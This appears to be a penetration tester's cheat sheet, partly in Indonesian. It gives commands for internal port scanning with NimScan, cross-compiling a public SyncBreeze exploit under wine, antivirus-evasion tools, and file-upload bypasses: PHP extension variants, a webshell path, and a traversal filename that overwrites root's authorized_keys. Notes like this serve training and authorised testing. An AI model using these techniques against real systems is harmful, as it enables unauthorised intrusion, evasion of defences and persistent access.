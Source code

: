 
## Scan port internal network Windows (NIMSCAN, NimScan.exe)
```cmd
iwr http://192.168.45.168:8000/NimScan.exe -outfile NimScan.exe
NimScan 10.0.0.0/24 -p:1-5000 
NimScan 10.0.0.1-10.0.0.10 -p:80,443,445
.\NimScan.exe 10.0.0.69 -a
```

## COMPILING WINDOWS EXPLOIT IN KALI (.c)
1. Sering kita issue librarynya missing terus. Karenam memang harus dicross-compile
```bash
sudo apt install mingw-w64
```
2. Compilenya begini
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```
3. Kalo error google aja, biasanya tinggal tambahin flag kyk gini
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
4. Karena mingw32 pasti hasilnya exe, jadi kita executenya pake wine
```bash
wine syncbreeze_exploit.exe
wine32 syncbreeze_exploit.exe
```
5. Issue butuh wine32 [UNSOLVED, KYKNYA EMNG MASALAH ARM]
https://www.youtube.com/watch?v=Xw9WBP_TJHw&ab_channel=HackHunt


## AV Bypass
1. ps_encoder.py
2. Shellter
> Ikutin Module aja
> Veil ==> https://cyberarms.wordpress.com/2018/05/29/anti-virus-bypass-with-veil-on-kali-linux/


## File Upload Trickz that perhaps you might miss

Webshell PATH: `/usr/share/webshells/`

1. PHP Extension Bypass for File Upload (Play with uppercase aswell, ex PHp)
```php
.php
.php3
.php4
.php5
.php7
.php8
.phtml
.phar
```
2. Taro filepath ke filenamenya, relative or absolute buat overwrite file.
```cmd
cat ~/.ssh/id_rsa.pub > authorized_keys 
>> lalu upload authorized_keysnya

Overwrite Root Authorized Keys
 ../../../../../../../root/.ssh/authorized_keys

etc..
```

